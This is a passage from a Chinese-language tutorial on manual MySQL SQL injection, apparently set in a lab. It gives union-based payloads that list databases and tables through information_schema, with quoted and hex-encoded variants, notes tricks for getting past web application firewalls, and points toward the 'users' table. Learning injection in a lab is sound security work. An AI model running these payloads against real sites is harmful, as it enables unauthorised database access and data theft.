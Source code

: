 拿到当前的数据库名称为: `security`  **`查询所有数据库`**  有时候忍不住想看下其他的数据库的内容，可以用这个语句查询所有的数据库: 

```
id=1' and 1=2 UNION SELECT 1,2,group_concat(schema_name) from information_schema.schemata --+
```
 


![][8] 
 
这里用到了 `group_concat` 函数，由于本篇文章的定位是 手工注入的步骤 这里不在这里进行细化的讲解此类函数的用法。了解相关函数的话参考我的另一篇文章: [MySQL 手工注入之常见字符串函数][18] 

## 查询表名
 
### database 查询数据库

```
id=1' and 1=2 UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
```
 


![][9] 
 
### 单引号-数据库
 
这里的 `database()` 函数进行了数据库查询，因为我们已经查到了当前的数据库为 `security` ，所有这里还可以酱紫写，用单引号括把数据库的名称括起来 `'security'` : 

```
id=1' and 1=2 UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+
```
 
### hex编码数据库
 
如果嫌单引号括起来麻烦的话，那么巧了！这里还有一个更麻烦的方法，就是将数据库名进行 `hex` 编码处理。使用火狐自带的 `HackBar` 插件可以快速的进行 `hex` 编码: 

![][10] 
 
`hex` 编码后在前面加上 `0x` 表明这里是16进制编码。 
 


![][11] 
 
目前主流的集中方法大致就是这样，还有一些先hex然后unhex `group_concat` 的写法，据说可以绕waf类的，这里不是很常用就不再赘述了。 同理这些方法放到查询数据库的列名中也是可以使用的，要学会活学活用。 

## 查询列名
 
目前收集到的信息为:
 
数据库名称: securuty数据库表名: emails,referers,uagents,users
 
做为一名黑客一定要有敏锐的嗅觉(手动dog)，这几个表中 一般我们都会去 继续猜解 `users` 表。下面用和查询数据库类似的方法去查询列名，关于原理的话 就是 `MySQL` 下有一个 `information_schema` 里面会存所有数据库的一些相关信息: 
 

[18]: http://www.sqlsec.com/2018/01/concat.html
[0]: https://img2.tuicool.com/mQFVNvU.jpg
[1]: https://img0.tuicool.com/eUJZva3.jpg
[2]: https://img0.tuicool.com/z2ERNzA.jpg
[3]: https://img2.tuicool.com/QbuQjeJ.jpg
[4]: https://img2.tuicool.com/NVNvMbm.jpg
[5]: https://img2.tuicool.com/u2Evqar.jpg
[6]: https://img0.tuicool.com/aeIbeai.jpg
[7]: https://img2.tuicool.com/26RzUbN.jpg
[8]: https://img0.tuicool.com/VzQ7ruj.jpg
[9]: https://img1.tuicool.com/bAjqeqn.jpg
[10]: https://img2.tuicool.com/eA7JFjR.gif
[11]: https://img2.tuicool.com/m2YBRza.jpg
[12]: https://img0.tuicool.com/iaEvy2i.jpg
[13]: https://img2.tuicool.com/eEV7Rnb.jpg
[14]: https://img2.tuicool.com/q2M7fyE.jpg
[15]: https://img1.tuicool.com/MRj6n2i.jpg
[16]: https://img2.tuicool.com/FjQFbmM.jpg
[17]: https://img1.tuicool.com/NjaqUnj.jpg
